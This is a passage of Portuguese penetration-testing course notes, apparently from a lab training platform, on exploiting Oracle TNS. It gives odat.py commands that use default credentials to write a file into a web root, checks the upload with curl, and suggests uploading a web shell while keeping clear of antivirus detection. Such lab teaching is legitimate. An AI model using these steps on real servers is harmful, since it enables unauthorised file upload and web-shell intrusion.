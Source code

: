 ```shell-session
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```

Outra opção é fazer upload de um shell da web para o destino. No entanto, isso requer que o servidor execute um servidor da web e precisamos saber o local exato do diretório raiz do servidor da web. No entanto, se soubermos com que tipo de sistema estamos lidando, podemos tentar os caminhos padrão, que são:

|**OS**|**Caminho**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

Primeiro, tentar nossa abordagem de exploração com arquivos que não parecem perigosos para os sistemas de detecção / prevenção de antivírus ou intrusão é sempre importante. Portanto, criamos um arquivo de texto com uma sequência e o usamos para fazer upload para o sistema de destino.

#### Oracle RDBMS - Upload de arquivo

```shell-session
casluxd@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
casluxd@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finalmente, podemos testar se a abordagem de upload de arquivos funcionou com `curl`. Portanto, usaremos um `GET http://<IP>` solicitação ou podemos visitar através do navegador.

```shell-session
casluxd@htb[/htb]$ curl -X GET http://10.129.204.235/testing.txt

Oracle File Upload Test
```


## Resumo

O protocolo Oracle TNS (Transparent Network Substrate) é um componente fundamental da arquitetura de rede da Oracle, usado para estabelecer a comunicação entre os clientes Oracle e os bancos de dados Oracle. Ele permite que os clientes se conectem aos bancos de dados Oracle por meio de uma rede, independentemente do sistema operacional ou do protocolo de rede subjacente.

O TNS é uma camada de software intermediária que atua como um serviço de rede transparente para os clientes e os bancos de dados Oracle. Ele permite que os clientes se comuniquem com o banco de dados Oracle usando identificadores de serviço, que são mapeados para endereços de rede reais por meio de um arquivo de configuração chamado arquivo de perfil TNS (TNSNAMES.ORA).

